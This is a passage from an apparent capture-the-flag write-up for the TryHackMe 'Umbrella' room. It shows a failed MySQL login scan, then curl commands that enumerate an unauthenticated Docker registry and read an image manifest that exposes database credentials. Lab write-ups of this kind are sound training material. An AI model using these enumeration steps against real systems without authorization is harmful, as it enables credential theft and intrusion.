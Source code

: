 ```bash
[-] 10.10.31.98:3306 - Access denied
[*] Auxiliary module execution completed
RHOSTS => 10.10.31.98
RPORT => 3306
[-] 10.10.31.98:3306      - Access denied
[*] 10.10.31.98:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
RHOSTS => 10.10.31.98
RPORT => 3306
[-] 10.10.31.98:3306      - Access denied
[*] 10.10.31.98:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Nothing to see here. 

### Step 1b: Enumerating docker registry

As I got stuck with the MySQL server, I moved on to the docker registry.

```bash
root@ip-10-10-214-222:~# curl -s 10.10.31.98:5000/v2
<a href="/v2/">Moved Permanently</a>.

root@ip-10-10-214-222:~# curl -k 10.10.31.98:5000/v2/_catalog
{"repositories":["umbrella/timetracking"]}
```

Great. We found the umbrella repository and no authentication is required.

One can read the manifest file by simply using `curl`.

```bash
curl -s 10.10.31.98:5000/v2/umbrella/timetracking/manifests/latest
{
   "schemaVersion": 1,
   "name": "umbrella/timetracking",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
        [snip]
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=N[redacted]5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"node\",\"app.js\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":null},\"container\":\"527e55a70a337461e3615c779b0ad035e0860201e4745821c5f3bc4dcd7e6ef9\",\"container_config\":{\"Hostname\":\"527e55a70a33\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=N[redacted]5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"#(nop) \",\"CMD [\\\"node\\\" \\\"app.js\\\"]\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":{}},\"created\":\"2022-12-22T10:03:08.042002316Z\",\"docker_version\":\"20.10.17\",\"id\":\"7aec279d6e756678a51a8f075db1f0a053546364bcf5455f482870cef3b924b4\",\"os\":\"linux\",\"parent\":\"47c36cf308f072d4b86c63dbd2933d1a49bf7adb87b0e43579d9c7f5e6830ab8\",\"throwaway\":true}"
```

[1]: https://tryhackme.com/room/umbrella